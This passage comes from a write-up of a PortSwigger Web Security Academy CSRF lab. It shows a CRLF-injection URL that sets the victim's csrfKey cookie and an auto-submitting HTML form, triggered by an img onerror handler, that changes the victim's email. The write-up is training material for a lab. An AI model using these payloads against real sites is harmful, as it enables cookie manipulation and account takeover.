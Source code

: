 The Search function of the website also sets the `LastSearchTerm` cookie, meaning I can manipulate the victim's cookies.

![](../../.gitbook/assets/portswigger-csrf-writeup-image-23.png)

In my testing, since I was given two accounts, I noticed that swopping the `csrfKey` cookie did not affect anything. As such, it is likely the case where I can recycle a valid `csrf` token and `csrfKey` cookie from my `wiener` account for the victim.

Additionally, I cannot change the email of my user without a valid `csrfKey`.

First, I can set the user's ``csrfKey` value using this URL:

```
https://0a8800d904cff49f81049da600c800d1.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrfKey=gx4NeCxvogfI4rvj7LhNk5eNsVaJ47N6%3b%20SameSite=None
```

Afterwards, I can craft this payload with a valid `csrf` token that has not been used yet. To make the user visit the malicious search URL, I can use `img` frames:

```html
<form class="login-form" name="change-email-form" action="https://0a4e006903ee971a8045715e00bf0059.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="Jqmv37HMO6LpU2lAku4sSVLJKzraTTH0">
</form>
<img src="https://0a4e006903ee971a8045715e00bf0059.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrfKey=gx4NeCxvogfI4rvj7LhNk5eNsVaJ47N6%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

## Lab 6: Token duplicated in Cookie

To solve this lab, change email of the victim. For this lab, there's an additional search function:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-5.png)

